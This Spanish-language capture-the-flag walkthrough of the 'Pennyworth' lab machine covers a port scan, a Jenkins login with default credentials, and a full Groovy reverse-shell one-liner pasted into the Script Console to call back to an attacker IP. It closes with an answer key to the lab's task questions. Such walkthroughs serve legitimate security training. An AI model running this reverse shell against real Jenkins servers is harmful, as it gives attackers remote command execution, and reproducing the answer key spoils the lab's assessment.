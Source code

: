 # Pennyworth

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Common Applications (Aplicaciones Comunes):** Son herramientas ampliamente utilizadas en entornos empresariales e industriales, como servidores de integración continua, bases de datos y servicios web. Aunque son esenciales para la productividad, su configuración incorrecta o el uso de versiones desactualizadas pueden exponer vulnerabilidades críticas que los atacantes pueden explotar.
  * **Jenkins:** Es una herramienta de automatización de integración y entrega continua (CI/CD) utilizada para compilar, probar y desplegar aplicaciones. Debido a su uso frecuente en entornos de desarrollo, si no se configura adecuadamente o se protege con credenciales seguras, puede ser un objetivo para ataques como la ejecución remota de código (RCE) o la explotación de credenciales predeterminadas.
  * **Java:** Es un lenguaje de programación versátil y ampliamente utilizado en aplicaciones empresariales y web. Aunque es potente, su ejecución en entornos vulnerables puede llevar a ataques como la deserialización insegura, vulnerabilidades en bibliotecas desactualizadas y explotación de código malicioso dentro de aplicaciones Java en ejecución.
  * **Reconnaissance (Reconocimiento):** Es una fase crítica en las pruebas de penetración donde se recopila información sobre el sistema objetivo. Esto incluye la identificación de versiones de software, credenciales predeterminadas y servicios expuestos, lo que permite a los atacantes descubrir posibles puntos de entrada y debilidades en la infraestructura.
  * **Remote Code Execution (Ejecución Remota de Código - RCE):** Es una de las vulnerabilidades más peligrosas que permite a un atacante ejecutar comandos arbitrarios en un sistema objetivo de forma remota. En entornos con Jenkins y Java, una mala configuración o el uso de plugins inseguros pueden llevar a la explotación de RCE, comprometiendo completamente el servidor.
  * **Default Credentials (Credenciales Predeterminadas):** Son credenciales establecidas por defecto en software o hardware que, si no se cambian, pueden ser utilizadas por atacantes para obtener acceso no autorizado. Servicios como Jenkins a menudo tienen credenciales predeterminadas que, si no son modificadas, pueden permitir compromisos completos del sistema con privilegios administrativos.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.135.7
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.135.7
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **8080** perteneciente al servicio **HTTP** está abierto. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos las credenciales por defecto **root**:**password**.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos ubicamos en Manage Jenkins > Script Console para subir una Reverse Shell.

```bash
String host="10.10.16.35";int port=4444;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Le damos a run mientras nos ponemos en escucha.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Tarea 1**

**¿Qué significa el acrónimo CVE?**\
📌 **Common Vulnerabilities and Exposures** (Vulnerabilidades y Exposiciones Comunes)

**Tarea 2**

**¿Qué significan las tres letras en CIA, refiriéndose a la tríada CIA en ciberseguridad?**\
📌 **Confidentiality, Integrity, Availability** (Confidencialidad, Integridad, Disponibilidad)

**Tarea 3**

**¿Qué versión del servicio se está ejecutando en el puerto 8080?**\
📌 **Jetty 9.4.39.v20210325**

**Tarea 4**

**¿Qué versión de Jenkins se está ejecutando en el objetivo?**\
📌 **2.289.1**

**Tarea 5**

**¿Qué tipo de script se acepta como entrada en la Consola de Scripts de Jenkins?**\
📌 **Groovy**

**Tarea 6**

**¿A qué sería igual la variable "String cmd" del fragmento de script Groovy si la VM de destino estuviera ejecutando Windows?**\
📌 **cmd.exe**

**Tarea 7**

**¿Qué otro comando, además de "ip a", podríamos usar para mostrar la información de nuestras interfaces de red en Linux?**\
📌 **ifconfig**

**Tarea 8**

**¿Qué opción debemos usar con netcat para que utilice el modo de transporte UDP?**\
📌 **-U**

**Tarea 9**

**¿Cuál es el término utilizado para describir hacer que un host objetivo inicie una conexión de regreso al host del atacante?**\
📌 **reverse shell**
